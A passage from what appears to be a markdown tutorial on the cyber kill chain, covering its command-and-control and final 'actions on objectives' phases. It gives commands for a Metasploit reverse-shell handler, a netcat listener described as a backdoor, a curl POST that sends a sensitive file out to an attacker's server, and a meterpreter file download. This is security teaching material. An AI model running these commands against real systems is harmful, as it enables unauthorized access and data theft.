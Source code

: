 ### Examples

Setting up a C2 listener with Metasploit:

```bash
# Launch Metasploit console
msfconsole

# Set up a handler to listen for reverse shells
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run
```

Or using `netcat` to open a simple backdoor:

```bash
# Open a listener with netcat
nc -lvp 4444
```

---

## 7. Actions on Objectives

**Actions on Objectives** is the final phase, where attackers achieve their goals, such as data exfiltration, privilege escalation, or lateral movement within the network. This is the phase where the actual harm occurs, whether it's stealing data, installing ransomware, or modifying files.

### Tools & Commands

- **curl**: To exfiltrate data via HTTP POST.
- **meterpreter**: To download files directly from compromised systems.

### Examples

Exfiltrating data with `curl`:

```bash
# Sending a sensitive file to a remote server
curl -X POST -F "file=@/path/to/sensitive_data.txt" http://192.168.1.10/upload.php
```

Or, downloading data with `meterpreter`:

```bash
# From within a meterpreter session
meterpreter > download C:\sensitive_data.txt /path/to/local/download/
```

Alternatively, attackers may attempt **lateral movement** with SMB or RDP, or perform **privilege escalation** using tools like **WinPEAS** or **linpeas**.

---
